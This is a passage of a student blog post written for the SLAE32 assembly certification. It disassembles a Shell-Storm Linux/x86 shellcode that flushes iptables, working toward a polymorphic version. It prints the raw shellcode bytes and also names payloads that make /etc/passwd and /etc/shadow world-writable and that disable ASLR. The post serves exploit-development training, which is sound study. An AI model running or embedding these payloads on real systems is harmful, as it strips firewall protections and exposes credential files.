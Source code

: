 Title: SLAE32 - Assignment 6.3
Date: 2022-06-04T14:31:50.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-30398

## Foreword

For this assignment, I chose the following shellcodes:

<ol>
- [Linux/x86 - chmod 666 /etc/passwd &amp; /etc/shadow - 57 bytes](http://shell-storm.org/shellcode/files/shellcode-812.php)

- [Linux/x86 - setuid(0) setgid(0) execve(echo 0 > /proc/sys/kernel/randomize_va_space) - 79 bytes](http://shell-storm.org/shellcode/files/shellcode-222.php)

- [Linux/x86 - iptables --flush - 43 bytes](http://shell-storm.org/shellcode/files/shellcode-825.php)

In this part I'll create a polymorphic version of the 3rd shellcode.

## Source Code

The files for this part of the assignment are the following:

- [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/original_shellcode.nasm), the original shellcode taken from Shell-Storm

- [polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/polymorphic_shellcode.nasm), my polymorphic version of the shellcode above

- [test_polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/test_polymorphic_shellcode.nasm), a `C` program for testing the polymorphic shellcode

## Analysis

First, we need to analyze the original shellcode:

```bash
echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

Follows the output of `ndisasm`:

```nasm
                            ; clear EAX, setting it to 0x00000000
00000000  31C0              xor eax,eax

                            ; null terminator for the string below
00000002  50                push eax

                            ; string -F
00000003  66682D46          push word 0x462d

                            ; save the pointer to the string into ESI
00000007  89E6              mov esi,esp

                            ; NULL terminator for the string below
```
